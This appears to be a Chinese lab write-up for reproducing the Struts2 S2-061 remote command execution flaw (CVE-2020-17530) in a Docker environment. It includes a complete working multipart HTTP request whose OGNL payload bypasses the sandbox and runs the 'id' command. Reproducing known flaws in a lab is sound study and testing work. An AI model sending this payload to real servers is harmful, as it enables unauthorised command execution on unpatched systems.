 # Struts2 S2-061 远程命令执行漏洞（CVE-2020-17530）

S2-061是对S2-059的绕过，Struts2官方对S2-059的修复方式是加强OGNL表达式沙盒，而S2-061绕过了该沙盒。该漏洞影响版本范围是Struts 2.0.0到Struts 2.5.25。

参考链接：

- https://cwiki.apache.org/confluence/display/WW/S2-061
- https://github.com/ka1n4t/CVE-2020-17530
- https://www.anquanke.com/post/id/225252
- https://mp.weixin.qq.com/s/RD2HTMn-jFxDIs4-X95u6g

## 漏洞环境

执行如下命令启动一个Struts2 2.5.25版本环境：

```
docker-compose up -d
```

环境启动后，访问`http://target-ip:8080/index.action`查看到首页。

## 漏洞复现

发送如下数据包，即可执行`id`命令：

```
POST /index.action HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 829

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("id")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```

可见，`id`命令返回结果将直接显示在页面中：

![](1.png)